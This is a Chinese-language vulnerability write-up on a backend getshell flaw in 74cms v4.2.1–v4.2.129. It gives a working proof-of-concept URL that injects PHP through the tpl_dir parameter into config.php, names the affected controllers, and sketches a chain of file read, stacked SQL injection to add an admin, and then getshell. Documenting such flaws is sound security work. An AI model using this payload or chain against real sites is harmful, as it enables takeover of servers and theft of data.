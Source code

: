 74cms v4.2.1-v4.2.129-后台getshell漏洞
======================================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02漏洞演示
------------

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId24.png)

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

    shell:http://74cms.test/Application/Home/Conf/config.php
    路径：\74cms\upload\Application\Home\Conf\config.php

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId26.png)

0x03 漏洞原理
-------------

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
    路径：74cms\upload\Application\Admin\Controller\TplController.class.php

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId28.png)

    路径： 74cms\upload\Application\Common\Controller\BackendController.class.php

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId29.png)

0x04题外话-认真版getshell方法
-----------------------------

认真版getshell方法：实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。首先利用-任意文件读取漏洞-读取系统中的hash值然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户在通过这个后台getshell漏洞即可完成一套日穿

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm
